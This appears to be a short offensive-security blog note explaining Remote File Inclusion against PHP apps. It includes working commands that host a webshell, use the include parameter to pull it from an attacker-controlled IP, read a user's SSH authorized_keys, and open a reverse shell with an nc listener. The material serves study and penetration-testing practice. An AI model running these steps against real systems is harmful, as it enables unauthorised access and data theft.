 ```yaml
---
layout: post
title: Remote File Inclusion - PHP Web Shells
titledate: 08/30/23
tags: ["infosec","offsec", "web", "rfi", "exploit", "php", "shell", "http"]
---
```


for RFI vulns just like the php data:// wrapper the allow_url_include option must be enabled in teh php web application

rfi vulns allow us to include files over http or smb 

<h3>/usr/share/webshells</h3>

there are plenty of good shells out there that can also be included from online hosted repos

in this example, we will host a webshell on our own web server that creates a backdoor, as state above, we could point to one that is hosted online

    $ /usr/share/webshells/php/python3 -m http.server 80

now we can point to the hosted webshell to execute our command

    $ curl "http://vulnapp.com/home/index.php?page=http://192.168.1.1/simple-backdoor.php&cmd=cat%20/home/don/.ssh/authorized_keys"

and we can utilise the same functionality to establish a reverse shell by utilizing a reverse shell php script

    $ /usr/share/webshells/php/python3 -m http.server 80

start the web server hosting our script

    $ nc -nlvp 443

    $ curl "http://vulnapp.com/home/index.php?page=http://192.168.1.1/php-reverse-shell.php" 
